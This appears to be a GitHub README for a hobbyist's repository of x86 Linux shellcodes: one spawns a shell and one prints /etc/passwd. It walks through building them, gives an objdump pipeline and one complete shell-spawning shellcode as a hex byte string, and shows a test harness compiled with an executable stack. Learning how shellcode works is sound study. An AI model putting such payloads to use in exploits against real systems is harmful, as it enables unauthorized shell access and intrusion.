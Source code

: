 Some Shellcodes
====
These are some sample shellcodes that i did in my free time.


# 1. 'sh' shell shellcode
Spawn a 'sh' shell.
[`README`](sh_shell/README.md)

# 2. 'cat /etc/passwd' file shellcode
Print the content of /etc/passwd file.
[`README`](etc_passwd/README.md)


Helper tools/commands
====
Use cmd_hex.py file to generate sequence of pushes for the command string by padding it it appropriately.

ex.

<pre>
$ python cmd_hex.py   
String:/bin/bash
Length 12
push 0x68736162		;hsab
push 0x2f6e6962		;/nib
push 0x2f2f2f2f		;////
</pre>

# Compiling
Use 'compile_link.sh' shell script to compile the asm files.

ex. to compile and link 'sh_shell.asm' file
<pre>
$ compile_link.sh shellcode_sh
</pre>

# Generate shellcodes from linked file 'shellcode_sh'

<pre>
objdump -d ./shellcode_sh | grep '[0-9a-f]:'|grep -v 'file' | cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' '| sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/'

"\x31\xc0\x50\x89\xe2\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
</pre>


Use the skeleton 'shellTest.c' file to test the shellcodes. Compile the c file using

<pre>
gcc -m32 -z execstack shellTest.c -o shellTest
</pre>

Final Note
=====
I am still learing coding shellcodes so i will be adding more shellcodes as i progress.

Author
====
Arun Kumar Shreevastava